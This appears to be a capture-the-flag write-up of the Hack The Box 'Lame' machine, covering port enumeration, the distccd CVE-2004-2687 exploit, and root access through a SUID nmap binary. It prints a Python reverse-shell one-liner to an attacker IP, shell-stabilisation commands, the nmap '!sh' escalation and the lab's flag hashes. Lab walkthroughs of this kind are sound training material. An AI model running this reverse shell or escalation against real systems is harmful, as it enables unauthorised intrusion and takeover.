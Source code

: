 ```yaml
---
sticker: emoji//1f613
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 139  | SMB     |
| 445  | SMB     |
| 3632 | distccd |



# RECONNAISSANCE
---

FTP anonymous login is enabled, let's check it out:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402152900.png)

Nothing in here, `smb` anonymous login is not enabled unfortunately, let's keep on going, if we remember the scan, we got the following on port `3632`:

```
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

We got something called `distccd`, `distcc` is a tool designed to distribute compilation of C/C++/Objective-C code across multiple machines on a network. It speeds up large builds by parallelizing the workload.

Since we got `distccd v1`, we can search for an exploit regarding that version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402153430.png)




# EXPLOITATION
---


This is a pretty old CVE, we are facing `CVE-2004-2687`, we can search for an exploit in GitHub:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402153623.png)

Link: https://github.com/angelpimentell/distcc_cve_2004-2687_exploit


If we use the exploit, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402153655.png)


We can get ourselves an interactive shell: 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.239",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

If we check up our listener:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402154059.png)

Let's proceed with privesc.



# PRIVILEGE ESCALATION
---


First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read `user.txt` now:

```
daemon@lame:/$ cat /home/makis/user.txt
6c8d8478b697ee1e975fb840878c905a
```

Let's use linpeas for a way to get into root:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402154841.png)

We got `nmap` binary set with a `4000 SUID`, let's check `gtfobins`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402155155.png)

So, we need to do the following in order to get root:

```
/usr/bin/nmap --interactive
!sh
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402155218.png)

We can finally read `root.txt`:

```
sh-3.2# cat /root/root.txt
259db45cfc8e1723f21fb0387f48ff5f
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250402155300.png)


